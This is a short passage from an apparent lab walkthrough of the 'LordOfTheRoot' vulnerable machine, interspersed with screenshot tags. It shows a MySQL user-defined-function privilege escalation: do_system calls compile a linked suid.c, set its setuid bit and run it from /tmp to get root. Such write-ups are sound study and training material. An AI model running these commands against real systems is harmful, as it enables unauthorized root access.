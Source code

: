{% img  /images/blog/vulhub/lordroot/Selection_024.png   [title manually exploit [alt text]] %}

exploit is good. now use [suid.c](https://github.com/wg135/script/blob/master/suid.c)

in mysql:

```
mysql> select do_system('gcc -o /tmp/suid /tmp/suid.c');
mysql> select do_system('chmod u+s /tmp/suid');
```
in /tmp

`./suid`

{% img  /images/blog/vulhub/lordroot/Selection_025.png   [title manually exploit [alt text]] %}